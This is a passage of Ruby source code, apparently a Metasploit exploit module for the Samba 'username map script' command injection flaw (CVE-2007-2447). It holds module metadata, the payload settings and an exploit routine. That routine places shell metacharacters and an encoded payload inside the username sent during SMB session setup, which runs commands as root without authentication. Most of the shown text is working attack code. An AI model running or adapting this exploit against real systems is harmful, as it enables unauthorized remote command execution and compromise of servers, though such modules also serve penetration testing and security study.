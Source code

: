 ```rb
				"username map script" configuration option. By specifying a username
				containing shell meta characters, attackers can execute arbitrary
				commands.

				No authentication is needed to exploit this vulnerability since
				this option is used to map usernames prior to authentication!
			},
			'Author'         => [ 'jduck' ],
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 10040 $',
			'References'     =>
				[
					[ 'CVE', '2007-2447' ],
					[ 'OSVDB', '34700' ],
					[ 'BID', '23972' ],
					[ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
					[ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
				],
			'Platform'       => ['unix'],
			'Arch'           => ARCH_CMD,
			'Privileged'     => true, # root or nobody user
			'Payload'        =>
				{
					'Space'    => 1024,
					'DisableNops' => true,
					'Compat'      =>
						{
							'PayloadType' => 'cmd',
							# *_perl and *_ruby work if they are installed
							# mileage may vary from system to system..
						}
				},
			'Targets'        =>
				[
					[ "Automatic", { } ]
				],
			'DefaultTarget'  => 0,
			'DisclosureDate' => 'May 14 2007'))

		register_options(
			[
				Opt::RPORT(139)
			], self.class)
	end


	def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```